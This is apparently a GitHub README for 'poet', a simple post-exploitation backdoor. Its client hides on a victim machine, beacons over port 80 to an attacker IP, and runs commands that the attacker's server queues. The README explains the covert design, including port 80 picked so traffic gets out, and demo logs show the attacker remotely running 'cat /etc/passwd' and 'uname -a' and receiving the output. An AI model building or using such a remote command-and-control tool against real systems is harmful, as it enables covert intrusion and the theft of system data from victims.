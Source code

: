 # poet

A simple POst-Exploitation Tool.

## overview

`client.py` is the script that runs on the victim machine, theoretically
hidden or obscured in some way. Based on arguments, it sends a ping of sorts
to a specified ip (attacker) at a desired frequency, where `server.py` may
or may not be running. As soon as `server.py` is executed on the attacker's
machine, `client.py` will be able to connect to the server and essentially ask
for a command to execute, based on arguments passed to `server.py`.
`client.py` will obediently execute the command and send the stdout back to
the server.

The server runs on port 80 of the attacker's machine by default and since that
is the commonly used port for web traffic, it is highly likely the victim will
be able to connect back.

## demo

The attacker has gotten access to the victim's machine and downloaded and
executed the client. He/she does not have the server running at this point,
but it's ok, the server waits patiently. Eventually the attacker is ready and
starts the server, telling the client to execute the commands, "cat /etc/passwd"
and "uname -a". The next time the client pings the server it sees the commands
queued to be executed and does so, one at a time. When all the commands have
been executed, the server stops, but the server keeps listening.

Victim's Machine (5.4.3.2):

```
$ ./client.py 1.2.3.4 5
[+] Poet started with delay of 5 seconds to port 80. Ctrl-c to exit.
[!] (2014-05-07 21:52:29.475144) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:34.475740) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:39.475874) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:44.477319) Could not connect to server. Waiting...
[!] (2014-05-07 21:52:49.478246) Could not connect to server. Waiting...
[+] (2014-05-07 21:52:54.480326) Executing "cat /etc/passwd"
[+] (2014-05-07 21:52:59.489891) Executing "uname -a"
[!] (2014-05-07 21:53:04.496380) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:09.497329) Could not connect to server. Waiting...
[!] (2014-05-07 21:53:14.498801) Could not connect to server. Waiting...
```

Attacker's Machine (1.2.3.4):

```
$ sudo ./server.py "cat /etc/passwd" "uname -a"
[+] Poet server started on 80.
[i] Connected By: ('5.4.3.2', 52252) at 2014-05-07 21:52:54.480167
[+] Sending Command: cat /etc/passwd
[+] Command Stdout:
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
syslog:x:101:103::/home/syslog:/bin/false
messagebus:x:102:105::/var/run/dbus:/bin/false
whoopsie:x:103:106::/nonexistent:/bin/false
landscape:x:104:109::/var/lib/landscape:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
lol:x:1001:1001::/home/lol:/bin/bash
[i] Connected By: ('5.4.3.2', 52253) at 2014-05-07 21:52:59.489664
[+] Sending Command: uname -a
[+] Command Stdout:
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux

[-] Finished with commands
```
